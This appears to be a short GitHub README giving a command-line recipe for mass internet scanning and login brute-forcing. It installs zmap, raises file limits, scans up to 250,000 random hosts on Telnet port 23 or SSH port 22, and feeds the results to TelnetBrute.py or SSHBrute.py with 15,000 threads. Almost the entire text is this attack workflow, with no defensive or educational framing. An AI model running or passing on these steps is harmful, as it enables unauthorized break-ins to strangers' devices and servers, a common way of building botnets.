 [VPS CentOS 6.9/6.8] 

- Install zmap

1- sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- ulimit -n 999999

2- zmap -p23 -o mfutelnet.txt -N 250000    ---OR---    zmap -p22 -o mfussh.txt -N 250000

   1,5-(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



